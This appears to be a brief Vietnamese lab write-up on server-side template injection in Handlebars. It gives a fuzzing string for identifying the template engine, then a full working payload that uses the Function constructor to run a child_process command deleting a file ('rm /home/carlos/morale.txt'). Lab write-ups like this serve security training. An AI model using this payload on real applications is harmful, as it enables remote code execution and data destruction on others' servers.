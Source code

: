 **Fuzzing để nhận diện template**

`?message=${{<%[''}}`

Quan sát lỗi => website dùng Handlerbars

![image-20250707235624132](./image/image-20250707235624132.png)

Sử dụng POC có sẵn osint được trên mạng, và chỉnh sửa payload: 

```
wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```
